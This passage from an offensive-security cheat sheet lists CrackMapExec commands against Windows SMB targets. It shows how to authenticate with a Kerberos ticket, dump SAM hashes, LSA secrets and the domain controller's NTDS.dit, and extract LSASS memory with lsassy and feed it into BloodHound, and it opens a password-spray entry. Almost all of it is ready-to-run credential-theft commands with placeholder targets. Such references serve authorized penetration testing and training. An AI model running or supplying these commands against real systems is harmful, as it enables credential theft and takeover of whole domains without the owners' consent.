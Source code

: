 Previously import ticket : 
export KRB5CCNAME=/tmp/ticket.ccache

```bash
cme smb <ip> --kerberos
```

## CME - Dump SAM Hashes (SMB)
Dumps SAM hashes using methods from secretsdump.py. Requires local admin privileges.
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

```bash
cme smb <ip> -u <user> -p <password> -d <domain> --sam
```

## CME - Dump LSA Secrets (SMB)
Dumps LSA secrets using methods from secretsdump.py. Requires Domain Admin or Local Admin Privileges on target Domain Controller.
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

```bash
cme smb <ip> -u <user> -p <password> -d <domain> --lsa
```

## CME - Dump NTDS.dit (SMB)
Dumps the NTDS.dit from target DC using methods from secretsdump.py. Requires Domain Admin or Local Admin Privileges on target Domain Controller.
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

```bash
cme smb <ip> -u <user> -p <password> -d <domain> --ntds
```

## CME - Dump LSASS (SMB)
Dumps LSASS memory using the lsassy module.
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

```bash
cme smb <ip> -u <user> -p <password> -d <domain> -M lsassy
```

## CME - Dump LSASS with BloodHound Update (SMB)
Dumps LSASS memory and updates BloodHound with the collected data.
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

```bash
cme smb <ip> --local-auth -u <user> -H <hash> -M lsassy -o BLOODHOUND=True NEO4JUSER=<user|neo4j> NEO4JPASS=<neo4jpass|exegol4thewin>
```

## CME - Password Spray (User=Password) (SMB)
Performs a password spray attack where the username is used as the password.
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/BRUTEFORCE-SPRAY 
